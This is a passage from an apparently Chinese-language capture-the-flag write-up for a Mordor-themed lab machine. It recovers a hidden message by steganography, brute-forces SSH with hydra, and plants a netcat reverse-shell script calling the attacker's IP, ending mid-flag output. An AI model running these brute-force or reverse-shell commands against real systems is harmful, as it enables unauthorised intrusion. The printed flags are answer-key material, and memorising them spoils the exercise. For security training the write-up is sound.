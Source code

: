 此外在系统根目录下发现 */whistleblow* 目录所属用户组是`orc`，并且目录下存在一个*Orc.jpg* 图片。

![5]({{ '/mordor_ctf/5.jpg' | prepend: site.url }})

通过 *exiftool* 工具查看图片元数据时发现提示信息：

```txt
Psst, little pig, i know what you want! I have hidden information for you
```

看来是进行了图片隐写，直接上 *steghide* 工具，提取出隐写文件：*whistleblow.txt*

```txt
You want to invade the fortress barad dur. You will got huge trouble, if youre noticed by some of the guards. You didn't hear this from me, but there's an unguarded entrance to the fortress. The way to that entrace is very dangerous, you have to evade the nazguls, they observe every time the area. The big eye is watching all time. If you reach the fortess, you have to go behind the fortress on the rocks. Go on, before i change my mind.

flag{9e49cb5caf91603db26adb774c6af72c88a6304a}
```

得到第三个flag：`flag{9e49cb5caf91603db26adb774c6af72c88a6304a} | 23lorlorck`

照着之前的套路，对ssh进行账号密码爆破，得到一个正确的账户和密码：`nazgul:23lorlorck`

```shell
┌──(root💀kali)-[~]
└─# hydra -L user.txt -p 23lorlorck 192.168.174.145 ssh  
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-30 01:30:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:4/p:1), ~1 try per task
[DATA] attacking ssh://192.168.174.145:22/
[22][ssh] host: 192.168.174.145   login: nazgul   password: 23lorlorck
1 of 1 target successfully completed, 1 valid password found
```

### flag4

登录到 *nazgul* 账户后发现执行一个命令就会退出，不过我们可以在 *orc* 账户的shell中创建一个反弹脚本，一旦登录 *nazgul* 账户后就执行，从而绕过限制。

```shell
echo "/bin/nc 192.168.174.128 6677 -e /bin/sh &" > /tmp/shell.sh
/usr/bin/chmod 777 /tmp/shell.sh
```

反弹得到shell后在 `/minasmorgul` 目录下得到第四个flag：`flag{37643e626fb594b41cf5c86683523cbb2fdb0ddc} | baraddur`

```shell
cd minasmorgul
ls
flag.txt
cat flag.txt
The nazgul's doesnt noticed you, youre very near to the fortress barad dur.
Frodo is already on the journey to morder, for destroying the ring at mount doom.
You see the great glowing eye... darkness overwhelms all you can see...
Mount doom bubbles and smokes very strongly, lightning and thunder rule over the country. Darkness everywhere

               Three::rings
          for:::the::Elven-Kings
       under:the:sky,:Seven:for:the
     Dwarf-Lords::in::their::halls:of
    stone,:Nine             for:Mortal
   :::Men:::     ________     doomed::to
```